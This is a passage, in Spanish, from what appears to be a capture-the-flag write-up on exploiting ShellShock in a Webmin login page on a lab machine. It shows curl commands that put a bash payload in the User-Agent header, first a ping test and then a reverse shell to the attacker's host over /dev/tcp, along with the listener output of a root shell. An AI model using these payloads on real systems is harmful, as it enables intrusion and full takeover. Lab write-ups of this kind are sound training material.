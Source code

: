 Luego, con `curl` intentaré explotar el ShellShock.

```
root@kali:/# curl https://10.10.10.7:10000/session_login.cgi -k -H 'User-Agent: () { :; }; ping -c 1 10.10.16.3'
```

Funcionó, recibo una traza *ICMP*.

```
root@kali:/# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
12:55:28.357873 IP 10.10.10.7 > 10.10.16.3: ICMP echo request, id 19738, seq 1, length 64
12:55:28.357883 IP 10.10.16.3 > 10.10.10.7: ICMP echo reply, id 19738, seq 1, length 64
```

Ahora, para aprovechar que puedo ejecutar comandos en la máquina victima, entablaré una reverse shell.

El proceso es el mismo que antes. Primero me pongo en escucha con `nc`.

```
root@kali:/# nc -vnlp 443
listening on [any] 443 ...
```

Luego con `curl` ejecuto el comando.

```
root@kali:/# curl https://10.10.10.7:10000/session_login.cgi -k -H 'User-Agent: () { :; }; bash -i >& /dev/tcp/10.10.16.3/443 0>&1'
```

Y la máquina víctima me envía una conexión.

```
root@kali:/# nc -vnlp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.7] 38816
bash: no job control in this shell
[root@beep webmin]# whoami
root
[root@beep webmin]# id 
uid=0(root) gid=0(root)
[root@beep webmin]# 
```

En este caso, soy el usuario **root** directamente.

<a name="escalada-privilegios"></a>
# Escalada de privilegios

<a name="asterisk-root"></a>
## De asterisk a root

Después de explotar el ShellShock a través del puerto 443, toca escalar privilegios.
